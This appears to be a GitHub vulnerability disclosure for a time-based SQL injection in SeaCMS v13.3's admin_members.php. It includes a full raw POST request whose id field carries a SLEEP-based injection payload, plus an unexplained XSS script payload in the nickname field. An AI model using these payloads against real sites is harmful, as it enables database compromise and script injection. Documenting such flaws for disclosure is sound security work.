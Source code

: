 # seacms-v13.3-sqli
Proof of Concept for SQL Injection vulnerability in SeaCMS v13.3
Impact system：<SeaCMS v13.3
Vulnerability URL：http://xxx.xxx.xx/30h9r/admin_members.php?ac=editsave
Note: The /30h9r/ in /30h9r/admin_members.php is randomly generated. The /30h9r/ for each cms is randomly generated
Vulnerability poc：

------------------------------------------------------------------------------------------------------------------------------------
POST /30h9r/admin_members.php?ac=editsave HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 297
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: 
Origin: 
Referer: 
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

Submit=%E7%A1%AE%E8%AE%A4%E4%BF%9D%E5%AD%98&acode=4146127b692bc4c4c282f61a4870f560&delpic=1&email=24622%40qq.com&gid=2&id=123 OR (SELECT 4554 FROM (SELECT(SLEEP(5)))tNAW)&nickname=%3Cscript%3Ealert%28%27xss%27%29&psd=&upoints=0&ustate=1&vipendtime=2025-09-07+13%3A32%3A23
-----------------------------------------------------------------------------------------------------------------------------------

Vulnerability reproduction:

Visit the ocean CMS website: https://www.seacms.net/; As shown in the picture：

<img width="832" height="538" alt="image" src="https://github.com/user-attachments/assets/7752ef93-0469-4846-b280-6ecdacffab08" />

<img width="832" height="514" alt="image" src="https://github.com/user-attachments/assets/33aefc47-2e75-4ba3-b13a-1f7712cb511a" />

Download the latest installation package version V13.3; And perform decompression; As shown in the picture

<img width="296" height="141" alt="image" src="https://github.com/user-attachments/assets/a2ce45f2-337a-496a-9b6e-046a9f527cde" />

Install according to the official user manual

The environment I installed this time:

Ubuntu 22, CPU: 2 cores, Memory: 4GB, Baota Panel -v9.6.0, MySQL 5.7.43, Apache 2.4.62, PHP 5.6.40

After installing the system, go to the default background. As shown in the picture

Request a delay of 10 Response within 20 seconds

<img width="832" height="536" alt="image" src="https://github.com/user-attachments/assets/690ba7e6-7b54-45af-b38b-1d314416837e" />
